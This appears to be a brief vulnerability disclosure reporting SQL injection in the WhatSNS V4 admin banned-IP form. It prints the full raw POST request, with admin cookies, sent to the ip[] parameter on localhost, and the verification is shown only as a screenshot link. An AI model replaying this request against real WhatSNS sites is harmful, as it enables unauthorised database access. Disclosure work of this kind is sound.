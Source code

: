 # WhatSNS V4 sqlinject

Project official: [https://www.whatsns.com](https://www.whatsns.com/)

project address: <https://gitee.com/huangyouzhi/whatsns>

## $ip variable

>
>   URL:http://127.0.0.1/whatsns/index.php?admin_banned/add.html
![](/img/w1.png)

- POST:

```
POST /whatsns/index.php?admin_banned/add.html HTTP/1.1
Host: 127.0.0.1
Content-Length: 84
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/whatsns/index.php?admin_banned/add.html
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1557362955; UIA=25w5_%5D.0a%5Bea51%2C7%2F-0b54%60%2AX4%5D%5D_1%28b7d2%60%2F%2Cb2b%5C83b%2F%28a%29%2A-a66%2C%29073_%5Cc%2F306%60; bdshare_firstime=1557799980117; admin=admin; pass=96e79218965eb72c92a549dd5a330112; _qddaz=QD.hseds1.6f7ht3.jwptla86; Hm_lvt_7b43330a4da4a6f4353e553988ee8a62=1560155578; _ga=GA1.1.1218018200.1562750483; PHPSESSID=h3hd7t6ptn12padakioc0ma8t1; Hm_lvt_b60316de6009d5654de7312f772162be=1570587747,1570678141,1570858233,1571039155; CmsCode=gab; Hm_lpvt_b60316de6009d5654de7312f772162be=1571039517; whatsnssid=d8bab68b1a953728; whatsnsauth=61e6Qq7XJ%2FsTmG%2BeCWSu507H0taq%2B6l%2BZYn%2Bm7BiW8Tca69D47kPL9pe3n0VoJK9ufoUEfZH0r2xM%2BiGETq5
Connection: close

ip%5B%5D=1&ip%5B%5D=2&ip%5B%5D=3&ip%5B%5D=4&expiration=30&submit=%E6%B7%BB+%E5%8A%A0
```

verification: 

![](https://github.com/YangSirrr/opendebug/blob/sourece/w2.png)

